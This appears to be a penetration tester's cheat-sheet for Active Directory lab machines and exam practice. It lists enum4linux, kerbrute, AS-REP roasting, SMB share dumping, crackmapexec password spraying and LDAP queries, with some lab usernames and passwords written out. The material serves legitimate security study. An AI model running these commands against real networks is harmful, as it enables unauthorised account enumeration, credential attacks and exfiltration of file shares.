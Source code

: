 
- [ ] Enum4linux

```
enum4linux -a 10.201.11.30
```




- [ ] Kerbrute
```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 userlist.txt -t 100
```

It's time to get the valid usernames to that we can try other attacks

User & Password was given in the Challenge so will use it.
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

or 

```
GetADUsers.py megacorp.local/ -dc-ip 10.10.10.179
```






- [ ] GetNPUsers

ASREPRoasting
>[!bug] Don't do this mistake in the exam
- We have to provide the Domain name and not the host name for the attack

```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```





- [ ] SMB Client

```
smbclient -L \\10.201.11.30
```

```
smbclient -L 10.201.11.30 -U 'anonymous'
```

```
smbclient \\\\10.10.10.182\\Data -U 'r.thompson' --password 'rY4n5eva'
```

```
smbmap -u fsmith -d EGOTISTICALBANK.local -p 'Thestrokes23' -H 10.10.10.175
```


## Download the contents of the this share

```
prompt off
```

```
recurse on
```

```
ls
```

```
mget *
```






- [ ] CrackMapexec

```
crackmapexec smb 10.201.11.30 -u '' -p '' --shares
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password>
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password_list> 
```

```
cme smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```




 
 - [ ] Ldap
 
```
ldapsearch -x -H ldap://10.10.10.182 -b "dc=cascade,dc=local" "(sAMAccountName=r.thompson)"

ldapsearch -h <ip_Address> -p 389 -x -b "dc=htb,dc=local"

ldapsearch -x -H 10.10.10.182 -s base  -b '' "(objectClass=*)" "*" +

ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local'


ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins, CN=Users,DC=htb,DC=local))" | grep sAMAccountName 

ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support,dc=htb'
```

